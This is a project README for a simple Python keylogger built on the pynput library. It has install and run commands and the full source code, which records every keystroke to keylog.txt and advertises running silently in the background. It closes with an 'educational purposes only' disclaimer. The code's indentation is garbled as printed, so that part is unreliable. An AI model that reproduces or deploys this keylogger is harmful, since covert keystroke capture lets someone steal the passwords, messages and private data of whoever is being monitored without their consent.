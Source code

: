 🔑 Keylogger in Python 🖥️
📌 About
This is a basic keylogger built using Python and pynput library. It records all keystrokes and logs them into a file named keylog.txt. The keylogger runs in the background and captures both normal and special keys.

🚀 Features
✅ Logs all keystrokes (letters, numbers, and symbols)
✅ Records special keys (Enter, Space, Backspace, etc.)
✅ Stores keystrokes in a log file (keylog.txt)
✅ Runs silently in the background
✅ Safe exit by pressing ESC

🛠️ Installation
1️⃣ Clone the Repository:

bash
Copy
Edit
git clone https://github.com/Kalyan16114421/KeyLogger
cd keylogger-python

2️⃣ Install Dependencies:

bash
Copy
Edit
pip install pynput

3️⃣ Run the Keylogger:

bash
Copy
Edit
python keylogger.py
🛑 How to Stop the Keylogger?
🚀 Press ESC key to safely stop the keylogger.
🛑 Alternatively, use Ctrl + C in the terminal to force stop it.
🔴 If running in the background, end "Python" process via Task Manager.

📜 Code Implementation
'''python

    from pynput import keyboard

    def on_press(key):
    try:
      print(f"Alphanumeric key '{key.char}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
         f.write(f"Alphanumeric key '{key.char}' pressed\n")
     except AttributeError:
      print(f"Special key '{key}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
        f.write(f"Special key '{key}' pressed\n")

     def on_release(key):
     print(f"'{key}' released") 
      #print to terminal
      with open("keylog.txt", "a") as f:
      f.write(f"'{key}' released\n")

      if key == keyboard.Key.esc:
      # Stop listener
      return False

      #Collect events until released
      with keyboard.Listener(
     on_press=on_press,
     on_release=on_release) as listener:
      listener.join()
    
⚠️ Disclaimer
🛑 This project is for educational purposes only.
🔴 Unauthorized use of keyloggers is illegal. Use it responsibly.
